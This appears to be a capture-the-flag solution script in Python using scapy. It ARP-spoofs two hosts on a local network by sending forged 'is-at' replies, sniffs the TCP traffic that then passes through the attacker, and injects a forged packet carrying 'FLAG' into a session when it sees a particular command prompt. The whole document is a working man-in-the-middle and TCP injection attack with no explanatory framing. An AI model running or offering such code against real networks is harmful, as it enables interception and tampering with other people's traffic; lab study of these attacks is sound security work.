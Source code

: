 ```python
from scapy.all import *
from scapy.layers.inet import *
from scapy.layers.l2 import *

interface = "eth0"
local_mac = get_if_hwaddr(interface)
local_ip = "10.0.0.2"
ip1 = "10.0.0.3"
ip2 = "10.0.0.4"

mac1=getmacbyip(ip=ip1)
mac2=getmacbyip(ip=ip2)

print(f"\033[1;32mlocal_mac:{local_mac}\033[0m")
print(f"\033[1;32mmac1:{mac1}\033[0m")
print(f"\033[1;32mmac2:{mac2}\033[0m")

eth=Ether(src=local_mac,dst="ff:ff:ff:ff:ff:ff")
arp1=ARP(op="is-at",hwsrc=local_mac,psrc=ip1,pdst=ip2)
arp2=ARP(op="is-at",hwsrc=local_mac,psrc=ip2,pdst=ip1)
sendp(eth/arp1,iface=interface)
sendp(eth/arp2,iface=interface)

def process(p:Packet):
    try:
        print("load:",p['TCP'].load)
        if p['TCP'].load==b"COMMANDS:\nECHO\nFLAG\nCOMMAND:\n":
            pdst = p['IP'].src
            psrc = p['IP'].dst
            flags = 'PA'
            ipflags = p['IP'].flags
            dst = p['Ethernet'].src
            dport = p['TCP'].sport
            sport = p['TCP'].dport
            seq = p['TCP'].ack
            ack = p['TCP'].seq+24
            pk = Ether(src=local_mac,dst=dst)/IP(src=psrc,dst=pdst,flags=ipflags)/TCP(sport=sport,dport=dport,seq=seq,ack=ack,flags=flags)/Raw(load=b"FLAG")
            sendp(pk,iface=interface)
    except Exception:
        pass
    
sniff(iface=interface,filter="tcp",prn=process)
```
